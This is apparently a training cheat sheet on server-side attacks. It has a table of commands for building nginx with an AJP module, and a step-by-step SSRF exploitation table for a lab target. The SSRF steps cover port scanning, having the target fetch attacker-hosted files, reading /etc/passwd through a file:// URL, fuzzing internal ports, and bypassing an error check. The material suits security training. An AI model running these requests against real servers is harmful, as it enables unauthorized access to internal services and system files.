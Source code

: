 # Server side Attacks

## Nginx Reverse Proxy & AJP

| **Command**                                                                                                                                 | **Description**                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz`                                                                                       | Downloading nginx                                                                        |
| `tar -xzvf nginx-1.21.3.tar.gz`                                                                                                             | Extracting nginx tar file                                                                |
| `git clone https://github.com/dvershinin/nginx_ajp_module.git`                                                                              | Cloning nginx\_ajp source code                                                           |
| `cd nginx-1.21.3`                                                                                                                           | Navigating to nginx directory                                                            |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server                |
| `make`                                                                                                                                      | GNU make utility to maintain groups of programs                                          |
| `sudo make install`                                                                                                                         | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx`                                                                                                                                | Starting the nginx server                                                                |

## SSRF Exploitation Example

| **Command**                                                                                                       | **Description**                                                                |
| ----------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`                                                                | Scanning the ports of the external target                                      |
| `curl -i -s -L http://<TARGET IP>`                                                                                | Interacting with the target and following redirects                            |
| `nc -lvnp 8080`                                                                                                   | Starting a netcat listener to test for SSRF                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                                         | Testing for SSRF vulnerability                                                 |
| `python3 -m http.server 9090`                                                                                     | Starting the python web server                                                 |
| `sudo pip3 install twisted`                                                                                       | Installing the ftp server                                                      |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                                          | Starting the ftp server                                                        |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`                              | Retrieving a remote file through the target application (HTTP Schema)          |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                                       | Retrieving a local file through the target application (File Schema)           |
| `for port in {1..65535};do echo $port >> ports.txt;done`                                                          | Generating a wordlist of possible ports                                        |
| `ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`                            | Fuzzing for ports on the internal interface                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`                                                    | Interacting with the internal interface on the discovered port                 |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`                              | Interacting with the internal application                                      |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`                      | Discovering web application listening in on localhost                          |
| `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`                   | Modifying the URL to bypass the error message                                  |